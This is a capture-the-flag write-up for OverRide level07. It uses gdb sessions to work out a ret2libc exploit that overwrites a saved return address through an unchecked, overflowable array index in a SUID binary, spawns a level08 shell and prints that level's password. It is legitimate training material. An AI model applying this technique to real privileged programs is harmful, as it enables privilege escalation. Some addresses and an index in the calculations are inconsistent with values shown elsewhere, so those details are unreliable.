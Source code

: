 # Level 7

## Vulnerability

Ret2Libc Attack on Unprotected Data Array

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### main() overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

We can see the program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

We also know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

Vulnerability: no check is performed on indexes and an unsigned int table is stored on the stack. This means we can read and store in stack memory. 


### Build exploit

Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) calculate the 'index' of EIP
3) use maxint overflow to access protected indexes
4) run exploit by inputting malicious number + index to running program
<br />

**step 1** - find the address of system, exit, bin/sh
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at ```0xf7e6aed0```
- ```exit()``` is at ```0xf7e5eb70```
- ```"/bin/sh"``` is at ```0xf7f897ec```
<br />

**step 2** - calculate the 'index' of EIP <br />
Once we find the index in the table where we reach EIP, we can then store our payload there using ```store_number()```. 

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```
The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```
Next, we need to calculate the 'index' of our EIP address. 
```
  0xffffd63c   -    0xffffd474    =    int(0x1c8)  =   456
[eip_address]     [table_address]                    [bytes]

456 / 4   =   114
          [index in table]

114 % 3 = 0
```
Ah... index 114 is protected: ```114 % 3 = 0```. We can't store a number at this index. <br /><br />


**Step 3** - use maxint overflow to access protected indexes

On lines 152-158 of the disassembled binary, we see that the table is accessed as ```data[index * 4]```. 
Since the index is an unsigned int and multiplied by 4, we can overflow uintmax to give the index where we want to go. 
```
0x100000000 = 2^32
[size of uintmax]

(2^32 / 4) + 114 = 1073741938
                  [index 114, after overflow]

1073741938 % 3 = 1
```
Index ```1073741938``` is unprotected! 

Let's test it out by causing the program to segfault. 
```
(gdb) run

Input command: store
 Number: 1094795585   # decimal for 0x41414141 or 'AAAA'
 Index: 1073741938    # index 114
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
<br /> 

**Step 4** - run exploit by inputting malicious number + index to running program

Let's structure our exploit:
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # address
                        4159090384           4159040368             4160264172          # in decimal, to be number input
                            |                     |                     |
                        1073741938           115                    115                 # index to use
                        data[114]            data[115]              data[116]   
```
Let's give it a go!
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
